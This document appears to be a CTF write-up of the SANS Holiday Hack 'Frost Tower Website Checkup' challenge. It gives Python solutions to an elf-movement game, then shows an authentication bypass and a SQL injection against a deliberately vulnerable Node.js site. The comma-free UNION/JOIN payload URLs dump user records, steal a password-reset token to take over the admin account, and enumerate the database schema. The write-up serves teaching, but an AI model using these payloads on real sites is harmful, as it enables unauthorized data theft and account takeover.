








# Challenge 12: Frost Tower Website Checkup

> Investigate Frost Tower's website for security issues. This source code will be useful in your analysis. In Jack Frost's TODO list, what job position does Jack plan to offer Santa? Ribb Bonbowford, in Santa's dining room, may have some pointers for you.

## The Hint

Let's head over to the dining room to see what Ribb has to say:

> Hello, I'm Ribb Bonbowford. Nice to meet you!
>
> Are you new to programming? It's a handy skill for anyone in cyber security.
>
> This here machine lets you control an Elf using Python 3. It’s pretty fun, but I’m having trouble getting beyond Level 8.
>
> Tell you what… if you help me get past Level 8, I’ll share some of my SQLi tips with you. You may find them handy sometime around the North Pole this season.
>
> Most of the information you'll need is provided during the game, but I'll give you a few more pointers, if you want them.
>
> Not sure what a lever requires? Click it in the Current Level Objectives panel.
>
> You can move the elf with commands like elf.moveLeft(5), elf.moveTo({"x":2,"y":2}), or elf.moveTo(lever0.position).
>
> Looping through long movements? Don't be afraid to moveUp(99) or whatever. You elf will stop at any obstacle.
>
> You can call functions like myFunction(). If you ever need to pass a function to a munchkin, you can use myFunction without the ().

Opening up the nearby arcade cabinet reveals `The Elf C0de` challenge:



There are several levels that we need to utilize our python skills to solve. There are several python classes and
methods at our disposal to leverage moving our elf around the map.

### Level 1

```python
import elf, munchkins, levers, lollipops, yeeters, pits

elf.moveLeft(10)
elf.moveUp(10)
```

### Level 2

```python
import elf, munchkins, levers, lollipops, yeeters, pits

all_lollipops = lollipops.get()
elf.moveTo(all_lollipops[1].position)
elf.moveTo(all_lollipops[0].position)
elf.moveTo({"x": 2, "y": 1})
```

### Level 3

```python
import elf, munchkins, levers, lollipops, yeeters, pits

elf.moveTo(levers.get(0).position)
levers.get(0).pull(levers.get(0).data() + 2)
elf.moveTo(lollipops.get(0).position)
elf.moveTo({"x": 2, "y": 1})
```

### Level 4

```python
import elf, munchkins, levers, lollipops, yeeters, pits

answers = [{}, [], 0, True, ""]
all_levers = levers.get()
all_lollipops = lollipops.get()

for i in range(len(answers) - 1, -1, -1):
    elf.moveTo(all_levers[i].position)
    all_levers[i].pull(answers[i])
elf.moveUp(2)
```

### Level 5

```python
import elf, munchkins, levers, lollipops, yeeters, pits

# Fix/Complete Code below
lever0, lever1, lever2, lever3, lever4 = levers.get()

elf.moveTo(lever4.position)
lever4.pull(lever4.data() + " concatenate")

elf.moveTo(lever3.position)
lever3.pull(not lever3.data())

elf.moveTo(lever2.position)
lever2.pull(lever2.data() + 1)

elf.moveTo(lever1.position)
lever1.pull(lever1.data() + [1])

elf.moveTo(lever0.position)
lever0.pull(lever0.data() | {"strkey": "strvalue"})

elf.moveUp(2)
```

### Level 6

```python
import elf, munchkins, levers, lollipops, yeeters, pits

lever = levers.get(0)
data = lever.data()
data_type = type(data)
if data_type == bool:
    data = not data
elif data_type == int:
    data = data * 2
elif data_type == list:
    data = [n + 1 for n in data]
elif data_type == str:
    data = data + data
elif data_type == dict:
    data['a'] += 1

elf.moveTo(lever.position)
lever.pull(data)
elf.moveUp(2)
```

### Level 7

```python
import elf, munchkins, levers, lollipops, yeeters, pits

for num in range(3):
    elf.moveLeft(3)
    elf.moveUp(11)
    elf.moveLeft(3)
    elf.moveDown(11)
```

### Level 8

```python
import elf, munchkins, levers, lollipops, yeeters, pits

all_lollipops = lollipops.get()
lever = levers.get(0)
for lollipop in all_lollipops:
    elf.moveTo(lollipop.position)
elf.moveTo(lever.position)
lever.pull(["munchkins rule"] + lever.data())
elf.moveTo({"x": 2, "y": 4})
elf.moveUp(2)
```

After working our way through the game, we achieve victory:



Here's what Ribb has to say:

> Gosh, with skills like that, I'll bet you could help figure out what's really going on next door...
>
> And, as I promised, let me tell you what I know about SQL injection.
>
> I hear that having source code for vulnerability discovery dramatically changes the vulnerability discovery process.
>
> I imagine it changes how you approach an assessment too.
>
> When you have the source code, API documentation becomes tremendously valuable.
>
> Who knows? Maybe you'll even find more than one vulnerability in the code.

## The Main Challenge

Let's start by visiting [the site](https://staging.jackfrosttower.com). We are presented with a coming soon page and an
input box to proviide an email to "stay in touch". We can see via the network tab that submitting an email posts to
the `/testsite` endpoint. Some quick fiddling with the input shows that some format validation is in place, and simple
sqli tricks don't work right out the gate. Let's check out the provided source code.

Looking through the code, we see a series of API endpoints that are exposed. Some of them require an authenticated
session to access such as the `edit` endpoint:

```javascript
app.get('/edit/:id', function (req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];

    if (session.uniqueID) {
    ...
```

Here we can see the code is checking the session object to see if it has a valid `uniqueID` property. In the normal
authentication flow in the `login` post endpoint, users would normally be assigned a `uniqueID` after successful login.
There is one endpoint that we can exploit to bypass the login, however:

```javascript
app.post('/postcontact', function (req, res, next) {
    var fullname = xss(ReplaceAnyMatchingWords(req.body.fullname));
    var email = xss(ReplaceAnyMatchingWords(req.body.email));
    var phone = xss(ReplaceAnyMatchingWords(req.body.phone));
    var country = xss(ReplaceAnyMatchingWords(req.body.country));
    var date = new Date();
    var d = date.getDate();
    var mo = date.getMonth();
    var yr = date.getFullYear();
    var current_hour = date.getHours();
    var date_created = dateFormat(date, "yyyy-mm-dd hh:MM:ss");

    tempCont.query("SELECT * from uniquecontact where email=" + tempCont.escape(email), function (error, rows, fields) {

        if (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        var rowlength = rows.length;
        if (rowlength >= "1") {
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");

        }
    ...
```

The contact form has a flaw where if an email address has already been submitted, a session will be created for an
unauthenticated user and the `uniqueID` property set to be the submitted email. We can leverage this by submitting two
forms with the same email. We can validate this works by visiting a protected endpoint, such as the `edit` endpoint
noted above:

```
https://staging.jackfrosttower.com/edit/1
```



Now that we have a valid session, we can access much more of the site. Let's look back at the source code to see what
else we can find. We know we might be looking for some SQLi opportunities, and there are several SQL queries in the
source. Most of them that accept user input are also
utilizing [escapes](https://github.com/mysqljs/mysql#escaping-query-values) to help mitigate SQLi attacks. Taking a
closer look at the `detail` get endpoint, however, we see the developers made a mistake:

```javascript
app.get('/detail/:id', function (req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";

    if (session.uniqueID) {

        try {
            if (reqparam.indexOf(',') > 0) {
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i = 0; i < ids.length; i++) {
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            } else {
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function (error, rows, fields) {

            if (error) {
                console.log(error);
                return res.sendStatus(500);
            }

            var rowdata = rows.length;

            if (rowdata == 0) {
                res.render('404',
                    {
                        'title': 'Not found!',
                        'userlogin': session.userfullname
                    }
                );
            } else {
                res.render('detail',
                    {
                        'title': 'Detail Contact',
                        'encontact': rows,
                        'dateFormat': dateFormat,
                        'csrfToken': req.csrfToken(),
                        'userlogin': session.userfullname,
                        'userstatus': session.userstatus
                    }
                );
            }
        });
    } else {
        res.redirect("/login");
    }
});
```

We can see in the first `try` `catch` block there is a query being conducted with a call to `m.raw(ids[i])`. Here's what
the [MySQL github page](https://github.com/mysqljs/mysql#escaping-query-values) has to say about the use of `.raw()`:

> Caution The string provided to mysql.raw() will skip all escaping functions when used, so be careful when passing in unvalidated input.

To trigger this vulnerability, we simply need to make a request to the `detail` endpoint with more than one `id`, and we
will perform our injection on one of the provided ids.

Here's a simple example query which will return all entries with an id value less than 10:

```
https://staging.jackfrosttower.com/detail/1,2 OR id%3C=10
```

Let's take this to the next level and see if we can pull the users table:

```
https://staging.jackfrosttower.com/detail/1,2 UNION SELECT * FROM users--
```

This injection will union the users table with the `uniquecontact` information the form is supposed to pull back. Here's
the result:



We have successfully pulled some data from the users table including hashed passwords. After some initial exploration,
however, it seems like cracking these hashes is not a viable option. With a goal of logging in as Super Admin, we can
take another look at the source code to devise a new plan. Let's take a look at the `forgotpass` endpoint. Submitting an
email address through the form will create a random token for the user, and would send an email with this token if that
section weren't commented out. If the use visits `/forgotpass/token/:id` with the correct token value, they will be able
to change their password. If we can generate a token for Super Admin by submitting `root@local` to the `forgotpass`
endpoint, we may be able to view their token through the `detail` endpoint SQLi flaw. Once we have the token, we can
reset the password and gain access to `Super Admin`.

The problem is that we are only display 5 columns of `users` table information in the `detail` endpoint, and `token` is
not one of them. We will need to restructure how we are pulling data from the `users` table so that `token` ends up
getting displayed. To further complicate things, because of how the `detail` endpoint works, we cannot simply provide
the ordered columns in a select statement, as the commas will end up splitting the submitted string and foiling our SQLi
attempt - so we need to find a way to do this without commas.

We can leverage `JOIN` statements to help with this:

```
https://staging.jackfrosttower.com/detail/1,2 UNION SELECT * FROM (select id from users)a JOIN (select name from users)b JOIN (select email from users)c JOIN (select token from users)d JOIN (select user_status from users)e JOIN (select date_created from users)f JOIN (select date_created from users)g--
```

Take note that we are asking for `date_created` twice to conform to the schema of the `uniquecontacts` table.  

Submitting this query after we submit a password reset yields a welcome sight:



We can see our token - we simply need to grab that and head to the `/forgotpass/token/:id` endpoint and we can now login as `Super Admin`:



After a bit more experimentation, however, it doesn't appear that gaining access to this account gives us much towards our goal of finding the todo list.  Let's see if we can enumerate some more information about the database.  We can alter our query to display some metadata about the MySQL databse from the `information_schema` database:

```
http://staging.jackfrosttower.com/detail/1,2 UNION SELECT * FROM (select null from users)a JOIN (select table_name from information_schema.tables)b JOIN (select null from users)c JOIN (select null from users)d JOIN (select null from users)e JOIN (select null from users)f JOIN (select null from users)g--
```

This query will pull back all table names from all databases.  After a bit of scrolling, we stumble on this:



So we indeed have a todo table - let's see if we can identify the columns.

```
https://staging.jackfrosttower.com/detail/1,2 UNION SELECT * FROM (select null from information_schema.columns where table_name="todo")a JOIN (select column_name from information_schema.columns where table_name="todo")b JOIN (select null from information_schema.columns where table_name="todo")c JOIN (select null from information_schema.columns where table_name="todo")d JOIN (select null from information_schema.columns where table_name="todo")e JOIN (select null from information_schema.columns where table_name="todo")f JOIN (select null from information_schema.columns where table_name="todo")g--
```

This query informs us that the `todo` table has `id`, `note`, and `completed` columns.

Let's see if we can pull back the `notes`:

```
https://staging.jackfrosttower.com/detail/1,2 UNION SELECT * FROM (select null from todo)a JOIN (select note from todo)b JOIN (select null from todo)c JOIN (select null from todo)d JOIN (select null from todo)e JOIN (select null from todo)f JOIN (select null from todo)g--
```

We succesfully reveal the entire contents of the todo table and reveal our answer of `clerk`:

